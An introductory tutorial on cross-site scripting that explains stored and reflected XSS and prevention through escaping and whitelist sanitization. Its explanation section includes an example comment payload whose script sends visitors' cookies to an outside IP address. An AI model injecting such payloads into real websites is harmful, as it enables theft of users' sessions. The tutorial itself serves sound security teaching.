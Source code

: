 # Cross Site Scripting

Author: Tan Wang Leng

## Overview

Cross site scripting (XSS) is a vulnerability found in websites.

Text boxes are commonly used in forms in websites to ask the user for input. For
example, blog websites may provide a text box for visitors of the blog to enter comments.

However, are commenters limited to just typing in plain text? Some website do not
check the input, thus commenters are able to use formatting HTML tags, such
as `<b>` for bolding and `<i>` for italicizing.

```html
I <b>like</b> your blog post!
```

becomes: I **like** your blog post!

The problem arises when the commenter starts using HTML for malicious purposes. For
example, HTML also supports `<script>`, for you to write JavaScript code on the
webpage as well.

```html
This is an innocent looking comment. <script>sendToServer("http://139.241.0.3/", document.cookie)</script>
```

While visitors of the blog will only see the non-script portion of the
comments (i.e. `This is an innocent looking comment.`), the browser will not
show the script portion of the comment, because it is legal HTML (you won't see
the tags like `<b>` and `<i>` when viewing webpages, so you definitely won't see
`<script>` on the webpage).

However, the browser is **actually executing the script**. Therefore, the hacker
can write any script that he wants (in our example, a function to send to the
hacker the user's cookies), without the user even being aware of what's going
on.

Therefore, the hacker has managed to add additional malicious "functionality" to
the website, that is not written by the original website developer.

Resources:

1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 32)
1. http://guides.rubyonrails.org/security.html#cross-site-scripting-xss
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29
1. http://www.symantec.com/connect/blogs/cross-site-scripting-vulnerabilities

## Types of Cross Site Scripting

There are no standard definitions, but there are at least two different types of
XSS:

* Persistent XSS (also known as stored XSS) - The JavaScript code gets stored in
the web server. Example: Posting a malicious JavaScript code into a blog post as
a comment. The comment gets stored in the database, and the web browser of future visitors of the
webpage will retrieve the comment from the database, resulting in execution.

* Non-persistent XSS (also known as reflected XSS) - The JavaScript code is
inserted in URL/links of website that accepts URL parameters as input. The input
is therefore not stored in a database. For example:

`https://www.ecard.com/view-ecard.php?content=Happy%20Holidays<script>...</script>`

Resources:

1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 33)
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29#Stored_and_Reflected_XSS_Attacks
1. http://security.stackexchange.com/questions/65142/what-is-reflected-xss

## Preventing Cross Site Scripting

There are a couple of ways to prevent your website against XSS. The two most
common ways are:

* Escaping String Input: By converting legal HTML characters to their
display-equivalent (e.g. `<` to `&lt;`), you prevent the symbol from being
parsed as HTML. It now even shows the content on the screen (in case the actual
intention is to actually show someone how to code for example).

* Whitelist Sanitization: By scanning and parsing the input as HTML, you can
remove undesired HTML elements, and only allowing certain whitelisted HTML
elements to be used (e.g. whitelisting only `<b>` and `<i>`).

Resources:

1. https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet
(2.2 RULE #1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content)
(2.7 RULE #6 - Sanitize HTML Markup with a Library Designed for the Job)
1. https://github.com/OWASP/java-html-sanitizer
1. https://github.com/rails/rails_xss
1. http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html
